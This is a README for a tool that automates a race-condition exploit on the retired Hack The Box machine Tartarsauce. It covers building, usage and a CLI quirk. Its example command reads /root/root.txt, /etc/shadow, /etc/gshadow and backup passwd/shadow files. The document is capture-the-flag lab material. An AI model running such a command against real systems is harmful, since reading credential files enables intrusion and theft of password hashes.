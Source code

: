 # Automated exploit of race condition in HTB's Tartarsauce

## Build

```
git clone https://github.com/epi052/htb-scripts-for-retired-boxes.git
cd htb-scripts-for-retired-boxes/tartarsauce
python3 -m pip install pyinotify --target triggered
python3 -m zipapp -p "/usr/bin/env python3" triggered
```

## Execution

```
chmod +x triggered.pyz
./triggered.pyz -h 

usage: triggered.pyz [-h] to_watch --to_read [TO_READ [TO_READ ...]] 

positional arguments:
  to_watch              Directory to watch for events

optional arguments:
  -h, --help            show this help message and exit
  --to_read [TO_READ [TO_READ ...]]
                        Space separated list of file names to be read from the
                        diff
```

## Examples

```
./triggered.pyz /var/tmp --to_read /root/root.txt /var/backups/gshadow.bak /var/backups/shadow.bak /var/backups/passwd.bak /var/backups/group.bak /etc/shadow /etc/gshadow
```

## CLI Gotcha

Due to allowing an arbitrary number of files in the `--to_read` option, the positional argument `to_watch` **MUST** come before `--to_read`, otherwise the program has no idea where `--to_read` stops and the `to_watch` directory begins.